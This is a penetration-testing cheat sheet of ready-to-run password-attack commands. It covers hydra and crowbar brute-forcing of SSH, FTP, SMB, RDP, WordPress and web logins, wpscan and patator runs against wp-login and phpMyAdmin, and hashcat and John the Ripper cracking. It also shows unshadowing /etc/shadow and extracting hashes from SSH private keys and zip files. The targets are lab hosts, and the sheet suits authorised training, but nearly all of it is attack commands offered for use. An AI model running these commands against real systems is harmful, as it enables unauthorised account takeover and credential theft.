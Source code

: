 # Bruteforce

<details>

<summary>Wordlists</summary>

```
/usr/share/wordlists/rockyou.txt
```

```
/usr/share/wordlists/seclists/Passwords/Common-Credentials/best1050.txt
```

</details>

<details>

<summary>Hashcat</summary>

1. Identify hashes using hashid or hash-identifier

```
hashid -mj to_crack
```

2. Using hashcat to identify the hash

```
hashcat --identify to_crack
```

3. See example hashes [here](https://hashcat.net/wiki/doku.php?id=example\_hashes)
4. `hashcat -m 13100 -a 0 kerberos.hash /usr/share/wordlists/rockyou.txt`

</details>

<details>

<summary>Hydra</summary>

#### SSH/FTP/SMB

```bash
hydra -t 4 -V -f -l lennie -P /usr/share/wordlists/rockyou.txt 10.10.13.33 ssh/ftp/smb
```

#### Website login

```bash
hydra crackme.site http-post-form "/login.php:usr=^USER^&pwd=^PASS^:invalid credentials" -L <wordlist of username> -P <wordlist of passwords> -f -V
```

* Before bruteforcing with `rockyou.txt`, bruteforce with wordlist using `cewl http://10.11.1.39/otrs/index.pl --write wordlist.txt`.&#x20;

#### Wp-admin login

```bash
hydra 192.168.126.52 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.126.52%2Fwp-admin%2F&testcookie=1:is incorrect" -l ben -P /usr/share/wordlists/rockyou.txt -f -V
```

#### Digest Auth

```
hydra -l "carlos" -P /usr/share/wordlists/rockyou.txt www.spiros.ml http-get /auth/digest.php -S
```

\-S is for HTTPS sites

#### Basic Auth

```bash
hydra -l "peter" -P /usr/share/wordlists/rockyou.txt www.spiros.ml http-head /auth/basic.php -S
```

</details>

<details>

<summary>Wordpress</summary>

* Quick (but need change username in script)
* target need put in full path (eg: http:sandbox.local)

```bash
XBruteForcer -l target.txt -p passwords.txt
```

```bash
wpscan --url https://192.168.242.148:12380/blogblog --passwords /usr/share/wordlists/rockyou.txt --usernames usernames.txt --password-attack wp-login --disable-tls-checks -t 100
```

* Specifying `wp-login` as password attack will increase speed

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt sunset-midnight -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 64
```

* Slow

```bash
wpscan --url http://test.local/ --passwords passwords.txt
```

</details>

<details>

<summary>phpMyAdmin</summary>

```bash
patator.py http_fuzz proxy_type=socks5 proxy=localhost:1080 url=http://IP/index.php method=POST body='pma_username=root&pma_password=FILE0&server=1&target=index.php&lang=en&token=' 0=/usr/share/wordlists/rockyou.txt before_urls=http://IP/index.php accept_cookie=1 follow=1 -x ignore:fgrep='Access denied for user '
```

</details>

<details>

<summary>John the Ripper</summary>

#### Linux hashes

```bash
unshadow /etc/passwd /etc/shadow > crackme
```

#### MD5

```bash
john crackme --wordlist=rockyou.txt --format=Raw-MD5
```

#### Convert password protected zip file to a crackable format

```bash
zip2john flag.zip
```

`flag.txt:$pkzip$1220302444be14f804203043c6619dcbac70ed43a3261eee8f327de5478afd3bf9a0b01016e2610a16d05221bf46bfede58693a220832b6b498350b173*$/pkzip$:flag.txt:flag.zip::flag.zip` is the output. Need to remove the everything before the first quotation if using Hashcat to crack!

#### SSH

```bash
python ssh2john.py id_rsa > id_rsa.hash
```

#### ASC keys

```bash
gpg2john tryhackme.asc > hash
```

#### Specific users

```bash
john --wordlist=rockyou.txt -users=victim,victim2 crackme
```

</details>

<details>

<summary>Crowbar</summary>

#### Bruteforce RDP

```bash
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```

```bash
proxychains -q crowbar -b rdp -S new_remaining_ips -U usernames.txt -C passwords.txt -n 4
```

</details>

<details>

<summary>Cewl (scraping website)</summary>

<pre class="language-bash"><code class="lang-bash"><strong>cewl -m 9 -d 12 -w wordlist.txt www.megacorpone.com
</strong></code></pre>

Will obtain all words that are >9 characters and <12 characters and save it to wordlist.txt

</details>

<details>

<summary>Stegseek</summary>

```bash
stegseek image.jpg
```

</details>
